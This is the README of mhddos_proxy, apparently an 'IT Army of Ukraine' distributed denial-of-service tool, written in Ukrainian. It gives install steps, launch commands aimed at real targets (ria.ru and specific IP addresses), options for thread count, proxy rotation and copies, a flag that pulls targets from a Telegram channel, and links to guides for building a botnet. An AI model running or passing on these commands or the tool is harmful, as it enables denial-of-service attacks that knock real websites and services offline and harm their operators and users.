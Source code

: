 ## IT Army of Ukraine Official Tool 

### [English Version](/README-EN.md)

- Вбудована база проксі з величезною кількістю IP по всьому світу
- Можливість задавати багато цілей з автоматичним балансуванням навантаження
- Безліч різноманітних методів
- Ефективне використання ресурсів завдяки асихронній архітектурі

### ⏱ Останні оновлення
  
Оновлення версії для Windows | Mac | Linux | Android | Docker: https://telegra.ph/Onovlennya-mhddos-proxy-04-16  

- **24.05.2022** Додано можливість запуску з автоматичним оновленням - див. пункт [Запуск](#2--запуск-наведено-різні-варіанти-цілей)
- **21.05.2022** Додано англійську локалізацію - параметр `--lang EN` (в майбутньому можуть бути додані інші мови)
- **18.05.2022** Додано налаштування `--copies` для запуску декількох копій (рекомендовано до використання при наявності 4+ CPU та мережі > 100 Mb/s).
- **15.05.2022** Повністю оновлена, асинхронна версія, що забезпечує максимальну ефективність та мінімальне навантаження на систему

### 1. 💽 Встановлення

#### Розширені інструкції - [натисніть тут](/docs/installation.md) 

#### Python (якщо не працює - спробуйте `python` або `python3.10` замість `python3`)

Потребує python >= 3.8 та git

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    python3 -m pip install -r requirements.txt

#### Docker

Встановіть і запустіть Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Запуск (наведено різні варіанти цілей)

#### Python з автоматичним оновленням (якщо не працює - спробуйте `python` або `python3.10` замість `python3`)

    ./runner.sh python3 https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (потребує оновлення вручну) (якщо не працює - спробуйте `python` або `python3.10` замість `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (для Linux додавайте sudo на початку команди)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 3. 🛠 Налаштування (більше у розділі [CLI](#cli))

Усі параметри можна комбінувати, можна вказувати і до і після переліку цілей

- Щоб переглянути інформацію про хід роботи, додайте параметр  `--debug` для тексту, `--table` для таблиці
- Щоб додати ваш IP/VPN до атаки (особливо актуально для виділених серверів), додайте параметр `--vpn`
- Щоб обрати цілі від https://t.me/itarmyofukraine2022, додайте параметр `--itarmy`
- Кількість потоків: `-t XXXX` - за замовчуванням 7500 (або 1000 якщо на машині лише 1 CPU)
- Запуск декількох копій: `--copies X`, при наявності 4+ CPU та мережі > 100 Mb/s

### 4. 📌 Допомогти в пошуку нових проксі для mhddos_proxy
Сам скрипт та інструкції по встановленню тут: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 5. 🐳 Комьюніті
- [Створення ботнету з 30+ безкоштовних та автономних(працюють навіть при вимкненому ПК) Linux-серверів](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [Детальний розбір mhddos_proxy та інструкції по встановленню](docs/installation.md)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)
- [Docker-image](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker), який запускає одночасно mhddos_proxy та [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder) (для Linux / Mac додайте sudo на початку):
- [Налаштування з нотифікаціями у Телеграм](https://github.com/sadviq99/mhddos_proxy-setup)

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise)
      --table / --debug      Print log as table / as text
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1)
      --lang {en,ua}         Select language (default is ua)

### 7. Власні проксі

#### Формат файлу (будь який на вибір):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

де `protocol` може бути одним з 3-ох: `http`|`socks4`|`socks5`, якщо `protocol`не вказувати, то буде обрано `http`  
наприклад для публічного проксі `socks4` формат буде таким:

    socks4://114.231.123.38:3065

а для приватного `socks4` формат може бути одним з таких:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065
  
**URL - Віддалений файл для Python та Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

де https://pastebin.com/raw/UkFWzLOt - ваша веб-сторінка зі списком проксі (кожен проксі з нового рядка)  
  
**path - Шлях до локального файлу, для Python**
  
Покладіть файл у папку з `runner.py` і додайте до команди наступний параметр (замініть `proxies.txt` на ім'я свого файлу)

    --proxies proxies.txt https://ria.ru

де `proxies.txt` - ваша ваш файл зі списком проксі (кожен проксі з нового рядка)
